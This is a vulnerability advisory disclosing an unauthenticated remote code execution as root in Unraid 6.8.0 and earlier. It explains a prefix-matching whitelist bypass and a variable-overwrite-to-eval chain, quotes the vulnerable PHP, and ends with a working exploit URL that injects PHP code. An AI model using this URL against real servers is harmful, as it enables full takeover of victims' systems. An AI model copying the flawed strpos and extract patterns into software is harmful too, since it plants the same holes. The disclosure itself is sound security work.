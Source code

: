 # Unraid <= 6.8.0 Unauthenticated Remote Code Execution

## Description

Unraid is an operating system for personal and small business use that brings enterprise-class features letting you configure your computer systems to maximize performance and capacity using any combination of applications, VMs, storage devices, and hardware.

**Threat**

Unauthenticated Remote Code Execution (RCE) as the *root* user.

Unrestricted access to the entire filesystem, including encrypted disks.


## Vulnerability records

**CVE ID**: CVE-2020-5847-5849

**Access Vector**: network

**Security Risk**: critical

**Vulnerability**: CWE-288,CWE-621,CWE-94,CWE-352

**CVSS Base Score**: 10.0

**CVSS Vector**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

## Details

## Authentication bypass (CWE-288)

In order to check if a web page requires authentication, unraid uses a `auth_request.php` file that contains a whitelist.

The file is called by the *nginx* webserver using the [auth_request](http://nginx.org/en/docs/http/ngx_http_auth_request_module.html) directive.

If the `auth_request.php` page return an HTTP 200 code, it means that the user have access to the resource.

The whitelist is implemented as the following :

```
$arrWhitelist = [
  '/webGui/styles/clear-sans-bold-italic.eot',
  [...]
  '/webGui/images/green-on.png'
];
foreach ($arrWhitelist as $strWhitelist) {
  if (strpos($_SERVER['REQUEST_URI'], $strWhitelist) === 0) {
    http_response_code(200);
    exit;
  }
}
```

The `strpos` function is used to find the first occurrence in a string. It returns *0*, only if the substring is a position *0*.

However, this function should *NOT* be used to compare strings. Indeed, if our string contains extra characters, the function will still return *0* as we can see in this example :

```
php > var_dump(strpos('/webGui/images/green-on.png', '/webGui/images/green-on.png'));
int(0)
php > var_dump(strpos('/webGui/images/green-on.png/EXTRASTRING', '/webGui/images/green-on.png'));
int(0)
```

In order to gain authentication bypass, we just need to add an extra character at the end of the requested URI:

http://unraid.lab/webGui/images/green-on.png/

As the *nginx* configuration file contains the following:

```
location / {
    try_files $uri /webGui/template.php$is_args$args;
}
```

The */webGui/template.php* file is now called, and displays the menu and other sensitive information like the *CSRF* token that is hardcoded in configuration files.

## Authentication bypass to arbitrary code execution (CWE-493 / CWE-94)

Now that we can access the */webGui/template.php* file without authentication, we can look at other vulnerabilities.

We looked at the source code and something catch our intention :

```
// Extract the 'querystring'
extract($_GET);

// Need the following to make php-fpm & nginx work
if (empty($path))
  $path = substr(explode('?', $_SERVER['REQUEST_URI'])[0], 1);

// The current "task" is the first element of the path
$task = strtok($path, '/');

// Here's the page we're rendering
$myPage = $site[basename($path)];
$pageroot = $docroot.'/'.dirname($myPage['file']);
$update = true; // set for legacy

// Giddyup
require_once "$docroot/webGui/include/DefaultPageLayout.php";
?>
```

The `extract` function is used with the `$_GET` user-supplied array.

`extract` is like register-globals, but worst. Every key of the array passed as the parameter will be declared as PHP variables. By default, the *EXTR_OVERWRITE* flag is used, meaning that already declared variables will be overwritten.

We can now control all variables declared before `extract`.

The first variable we tried to overwrite is *docroot* as it could allow us to include arbitrary files.

However, this variable is prepended with */webGui/include/DefaultPageLayout.php*, and the default *PHP* configuration disallow remote inclusions.

We looked at the *DefaultPageLayout.php* file content, and found several uses of *eval*:

```
  empty($page['Markdown']) || $page['Markdown']=='true' ? eval('?>'.Markdown($page['text'])) : eval('?>'.$page['text']);
```

The `$page` variable is used in a foreach loop of the same file:

```
$view = $myPage['name'];
$pages = [];
if ($myPage['text']) $pages[$view] = $myPage;
[...]
foreach ($pages as $page) {
```

As we can see, the `$page` variable comes from the `$pages` loop that use values from the `$myPage` array.

The `$myPage` array is declared in the *webGui/template.php* file:

```
$myPage = $site[basename($path)];
```

Because the `extract` function is used, `$site` and `$path` can be controlled by the user.

We finally came up with the following chain, that use the authentication bypass, the arbitrary variable overwriting and the remote code execution :

`http://unraid.lab/webGui/images/green-on.png/?path=x&site[x][text]=%3C?php%20phpinfo();%20?%3E`

As the server is running as *root*, we now have unrestricted access to the appliance.

## Affected versions

All unraid versions

## Solution

To be provided by vendor.

## Timeline (dd/mm/yyyy)

04/01/2020

## Credits

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)
